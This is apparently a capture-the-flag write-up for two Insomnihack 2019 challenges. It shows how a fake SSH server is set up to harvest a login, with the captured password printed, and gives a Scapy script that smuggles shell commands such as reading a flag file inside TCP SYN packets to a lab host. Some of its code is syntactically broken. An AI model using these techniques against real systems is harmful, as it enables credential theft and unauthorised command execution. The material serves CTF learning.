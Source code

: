 KnockKnock
=====================================
It was not about attacking, but listening on the laptop.
There was a connection to port 22 from the server 10.13.37.99
Let's install a FakeSSH serveur :
git clone https://github.com/tylermenezes/FakeSSH

sudo pip install paramiko

cd FakeSSH
cp ./data/config.sample.json ./data/config.json
ssh-keygen -f ./data/rsa -m 'PEM' 
set no password

sudo python3 server.py

wait max 10min

![](https://github.com/k4nfr3/CTF-writeup/blob/master/2019-Insomnihack/fakessh_1.jpg)

ssh -l svc-tenable-linux 10.13.37.99
password = $\mx3i#u0@%6d@8fk^&^x*ntw2m

![](https://github.com/k4nfr3/CTF-writeup/blob/master/2019-Insomnihack/fakessh_2.jpg)


Net1
==============

Hint 2 : RFC741x => RFC7413 = Use TCP SYN Data

ok, Let's try some Python Scapy with TCP-Syn Data
===========================
from scapy.all import *
def main(command):
    while True:
        # build the TCPSYN packet with the command as the payload
        pinger = IP(dst="10.13.37.98")
        SYN = TCP(sport=6666, dport=3258, flags='S', seq=1000)
        xsyn = pinger / SYN / command
        send(xsyn)
if __name__ == "__main__":
    main(ls -la)
 ====================================   
Trying to send some commands but nothing back from the server.

Hint : We got the password "SyN" at 1am

Ok, let's send some commands
main(SyN ls -la)
....
final command : main(SyN cat ./secret/me/not/flag.txt)

to find flag 
![](https://github.com/k4nfr3/CTF-writeup/blob/master/2019-Insomnihack/Net1.jpg)




